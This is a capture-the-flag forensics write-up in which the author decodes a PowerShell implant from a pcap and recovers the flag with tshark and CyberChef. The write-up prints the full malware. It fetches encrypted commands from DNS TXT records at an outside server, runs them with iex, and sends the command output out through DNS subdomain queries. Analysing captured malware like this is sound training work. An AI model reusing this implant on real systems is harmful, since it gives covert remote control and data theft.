





# WRITE_UP #

## AUTOMATION ##

### 1. Analysis ###
* **Given:** a pcap file named `capture.pcap`.
* **Description:** Vinyr&amp;#039;s threat intelligence is monitoring closely all APT groups from every possible galaxy, especially the most dangerous one, longhir. As stated by an anonymous threat intelligence officer, the malicious actors tend to automate their initial post-exploitation enumeration so they can have less on-keyboard time. You can find such an example in the provided network capture generated by a recent incident. Analyse it and find out what they are up to.
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### DNS EXFILTRATIONNNN ####
So we were given a pcap file, let's use `Wireshark` to investigate it.

Firstly, take a quick glance at `Protocol Hierarchy`, we can easily see the percentage of TCP packets is quite high, let's analyse it first.



Travel through several streams, there are some `GET` request to download some `.cab` and `.exe` file. I try to extract the `.exe` and drop it on `VirusTotal` however it gave me nothing.

And then at `TCP stream 17`, we can see a base64 encoded string:
,

Using `CyberChef` to decode it we got a `.ps1` file:
```powershell
function Create-AesManagedObject($key, $IV) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV) {
        if ($IV.getType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)
     
        }
        else {
            $aesManaged.IV = $IV
     

        }
    }
    if ($key) {

        if ($key.getType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }
    $aesManaged
}

function Create-AesKey() {
  
    $aesManaged = Create-AesManagedObject $key $IV
    [System.Convert]::ToBase64String($aesManaged.Key)
}

function Encrypt-String($key, $unencryptedString) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($unencryptedString)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    $aesManaged.Dispose()
    [System.BitConverter]::ToString($fullData).replace("-","")
}

function Decrypt-String($key, $encryptedStringWithIV) {
    $bytes = [System.Convert]::FromBase64String($encryptedStringWithIV)
    $IV = $bytes[0..15]
    $aesManaged = Create-AesManagedObject $key $IV
    $decryptor = $aesManaged.CreateDecryptor();
    $unencryptedData = $decryptor.TransformFinalBlock($bytes, 16, $bytes.Length - 16);
    $aesManaged.Dispose()
    [System.Text.Encoding]::UTF8.GetString($unencryptedData).Trim([char]0)
}

filter parts($query) { $t = $_; 0..[math]::floor($t.length / $query) | % { $t.substring($query * $_, [math]::min($query, $t.length - $query * $_)) }} 
$key = "a1E4MUtycWswTmtrMHdqdg=="
$out = Resolve-DnsName -type TXT -DnsOnly windowsliveupdater.com -Server 147.182.172.189|Select-Object -Property Strings;
for ($num = 0 ; $num -le $out.Length-2; $num++){
$encryptedString = $out[$num].Strings[0]
$backToPlainText = Decrypt-String $key $encryptedString
$output = iex $backToPlainText;$pr = Encrypt-String $key $output|parts 32
Resolve-DnsName -type A -DnsOnly start.windowsliveupdater.com -Server 147.182.172.189
for ($ans = 0; $ans -lt $pr.length-1; $ans++){
$domain = -join($pr[$ans],".windowsliveupdater.com")
Resolve-DnsName -type A -DnsOnly $domain -Server 147.182.172.189
    }
Resolve-DnsName -type A -DnsOnly end.windowsliveupdater.com -Server 147.182.172.189
}
```
Breaks down the code:

1. Function `Create-AesManagedObject`, we can see the attacker used `AES-256`, **Mode:** `CBC`, **Padding:** `Zero`, we need this information to decrypt the data.
   
2. The malware operates in a two-stage loop:
* **Command Retrieval:** It fetches commands by querying `TXT` records from `windowsliveupdater.com`. The retrieved string is Base64 encoded. The `Decrypt-String` function takes the first 16 bytes as the IV, decrypts the rest, and executes the plaintext command by using `iex`.
* **Data Exfiltration:** Once the command is executed, the output is passed to `Encrypt-String`. 
    * A random 16-byte IV is generated.
    * The data is encrypted and appended to the IV: `$fullData = $aesManaged.IV + $encryptedData`.
    * The entire byte array is converted into a continuous Hex string.
    * The `parts 32` filter splits this massive Hex string into chunks of 32 characters (which equals exactly 16 bytes of `iv`).
    * Finally, it exfiltrates these in the format: `[32_hex_chars].windowsliveupdater.com`, wrapped between `start.windowsliveupdater.com` and `end.windowsliveupdater.com` queries.

This technique is called `DNS Exfiltration` which attacker hide payload in the `DNS Domain` for a malware to extract then execute.

First, let's deal with what commands attacker ran on the machine, we use `tshark` to do this:
```bash
tshark -r capture.pcap -Y "dns.qry.type == 16 && dns.qry.name == \"windowsliveupdater.com\" && dns.flags.response == 1 && ip.src == 147.182.172.189" -T fields -e dns.txt > c2_commands.txt
```

After using `tshark`, we have the base64 commands encrypted by AES-256:
```bash
Ifu1yiK5RMABD4wno66axIGZuj1HXezG5gxzpdLO6ws=
hhpgWsOli4AnW9g/7TM4rcYyvDNky4yZvLVJ0olX5oA=
58v04KhrSziOyRaMLvKM+JrCHpM4WmvBT/wYTRKDw2s=
eTtfUgcchm/R27YJDP0iWnXHy02ijScdI4tUqAVPKGf3nsBE28fDUbq0C8CnUnJC57lxUMYFSqHpB5bhoVTYafNZ8+ijnMwAMy4hp0O4FeH0Xo69ahI8ndUfIsiD/Bru,BbvWcWhRToPqTupwX6Kf7A0jrOdYWumqaMRz6uPcnvaDvRKY2+eAl0qT3Iy1kUGWGSEoRu7MjqxYmek78uvzMTaH88cWwlgUJqr1vsr1CsxCwS/KBYJXhulyBcMMYOtcqImMiU3x0RzlsFXTUf1giNF2qZUDthUN7Z8AIwvmz0a+5aUTegq/pPFsK0i7YNZsK7JEmz+wQ7Ds/UU5+SsubWYdtxn+lxw58XqHxyAYAo0=
vJxlcLDI/0sPurvacG0iFbstwyxtk/el9czGxTAjYBmUZEcD63bco9uzSHDoTvP1ZU9ae5VW7Jnv9jsZHLsOs8dvxsIMVMzj1ItGo3dT+QrpsB4M9wW5clUuDeF/C3lwCRmYYFSLN/cUNOH5++YnX66b1iHUJTBCqLxiEfThk5A=
M3/+2RJ/qY4O+nclGPEvJMIJI4U6SF6VL8ANpz9Y6mSHwuUyg4iBrMrtSsfpA2bh
```

Using CyberChef to decrypt the data:
1. We need to decode the Base64 strings
2. Turn the strings to hex, cut off the first 16 bytes to use as IV
3. Using AES decrypt to decrypt the traffic





Base64 decode the string we have the first part of the flag: `part1='HTB{y0u_c4n_'`

Now we need to extract the payload in the domain (the output of the commands ran) we use `tshark` to do this:
```bash
tshark -r capture.pcap -Y "dns.qry.name contains \"windowsliveupdater.com\" && ip.dst == 147.182.172.189" -T fields -e dns.a | grep -oP "^[a-fA-F0-9]{32}(?=\.windowsliveupdater\.com)" > extracted_dns.txt
```

After I got the extracted dns domain, I cut off the first 16 bytes to use as `IV`, the `key` is hardcoded in the malware: `a1E4MUtycWswTmtrMHdqdg==`, now let's use CyberChef to decrypt it:



We got the part2 of the flag: `4utom4t3_but_y0u_c4nt_h1de}`

## 3. Solution ##
1. **Result:** The flag is `HTB{y0u_c4n_4utom4t3_but_y0u_c4nt_h1de}`


